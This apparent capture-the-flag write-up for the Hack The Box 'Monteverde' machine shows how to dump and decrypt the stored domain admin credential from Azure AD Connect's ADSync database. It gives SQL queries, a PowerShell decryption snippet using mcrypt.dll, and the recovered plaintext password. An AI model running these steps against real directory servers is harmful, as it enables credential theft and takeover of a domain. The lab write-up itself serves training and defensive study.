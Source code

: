 ```yaml
---
title: "Pwning Password Hash Synchronization in Azure Active Directory (Monteverde HTB)"
date: 2020-01-14T15:13:38-05:00
draft: false
description: "Using system.sqlclient to query and decrypt local Administrator PW Hashes"
---
```


# Password Hash Synchronization

We find ourselves a domain user in the Azure Administrators group. We can use powershell's Invoke-SQLcmd to query the Azure AD Database "ADSync". This database allows active directory to sync the AD configurations to the cloud. The attack is explained more thoroughly in this blog: 

[Azure-AD-Connect-forReadTeams](https://blog.xpnsec.com/azuread-connect-for-redteam/)

The configuration files are stored in:  

mms_server_configuration  

mms_management_agent

The encrypted configuration lies in the mms_management_agent and is decrypted with the entropy, instance_id, and key_id,with the help of mcrypt.dll. 

To query the required fields we can utilize the built-in Powershell commandlet: 
```powershell
Invoke-SQLCMD  
```

```powershell
Invoke-SQLCMD -Query "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration" -ServerInstance "MONTEVERDE" -Database "ADSync"  
  
Invoke-SQLCMD -Query "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent" -ServerInstance "MONTEVERDE" -Database "ADSync"  
```

We can store these values directly in individual powershel variables, and then pass them to the decryption function provided by the XPN blog as such:  
```powershell
add-type -path "C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll"
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)
```

Now our decrypted information is stored in $decrypted. So on the command line:

*Evil-WinRM* PS C:\Users\mhope\Documents> $decrypted  

```html
<encrypted-attributes>
 <attribute name="password">d0m@in4dminyeah!</attribute>
</encrypted-attributes>
```






